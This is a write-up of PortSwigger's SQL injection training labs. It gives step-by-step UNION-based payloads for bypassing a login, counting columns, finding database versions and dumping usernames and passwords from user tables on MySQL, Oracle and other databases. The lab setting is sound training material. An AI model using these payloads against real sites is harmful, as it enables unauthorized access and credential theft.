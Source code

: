 ```yaml
---
title: Portswigger Lab SQLi (UNION)
date: 2023-01-28 09:45:47 +07:00
modified: 2023-01-28 09:45:47 +07:00
tags: [Portswigger, SQLi , Writeup]
description: Write Up for Portswigger Lab SQLi
---
```



![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/logo.png)

Lab Name → **SQL Injection (UNION)**

Lab Link → [https://portswigger.net/web-security/all-labs](https://portswigger.net/web-security/all-labs)

Description → First 10 Labs of SQLi Lab based on UNION attack.

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

By making the statement true we can get all the categories.

Payload → `'OR 1=1-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/1.png)


## SQL injection vulnerability allowing login bypass

In the login page after typing the username we can just comment the rest of the statement. Which will make the password parameter a comment.

Payload → `administrator'-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/2.png)


## SQL injection UNION attack, determining the number of columns returned by the query

First we have to find how many columns are there. We can use the [ORDER BY]() keyword. Lets increase the payload by 1 until we get and error.

Payload → `'ORDER BY 3--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/3.png)

When we reach 4 we get a error.

Payload → `'ORDER BY 4--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/4.png)

Now we know that there are 3 columns. Lets use UNION to get all the columns.

Payload → `' UNION SELECT NULL,NULL,NULL--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/5.png)


## SQL injection UNION attack, finding a column containing text

Now that we know which table has 3 columns, we have to find the column that is injectable. In this case, 2nd column was injectable.

Payload → `' UNION SELECT NULL,'ap8kCb',NULL--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/6.png)


## SQL injection UNION attack, retrieving data from other tables

We go back to find the number of the column. In this case, we get an error at 3. So, the number of the column is 2.

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/7.png)

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/8.png)

Next, we get the username and password from the user's table using UNION.

Payload → `' UNION SELECT username,password FROM users--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/9.png)

We get the admin name and password. After we log in, the lab is solved.

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/10.png)


## SQL injection UNION attack, retrieving multiple values in a single column

We can use the CONCAT keyword to get information in one column.

Payload → `' UNION SELECT NULL,CONCAT(username,' ',password) FROM users--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/11.png)



## SQL injection attack, querying the database type and version on Oracle

For Oracle database we can get [banner]() from [v$version]() table to get the version.

Payload → `' UNION SELECT banner,NULL FROM v$version--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/12.png)



## SQL injection attack, querying the database type and version on MySQL and Microsoft

To get MySQL or Microsoft database version we can use [@@version]()

Payload → `' UNION SELECT @@version,NULL-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/13.png)

## SQL injection attack, listing the database contents on non-Oracle databases

First we have to find the table_name from [information_schema.tables]()


Payload → `' UNION SELECT table_name,NULL FROM information_schema.tables--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/14.png)

We found the table of the user. Next, we are going to get the column names from the table.

Payload → `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_neqdue'--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/15.png)

After getting the column names we can print out the data and after logging in with the administrator we solve the lab.

Payload → `' UNION SELECT username_skjbtp,password_ajvmno FROM users_neqdue--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/16.png)


## SQL injection attack, listing the database contents on Oracle

Lets get the table name first.

Payload → `' UNION SELECT table_name,NULL FROM all_tables-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/17.png)

Now that we have the table name lets get the column names from that table.

Payload → `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_ETYIRN'-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/18.png)

Now lets get Admin username and password from the columns.

Payload → `' UNION SELECT USERNAME_EPLQOW,PASSWORD_ZXLHQB FROM USERS_ETYIRN-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/19.png)

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/20.png)


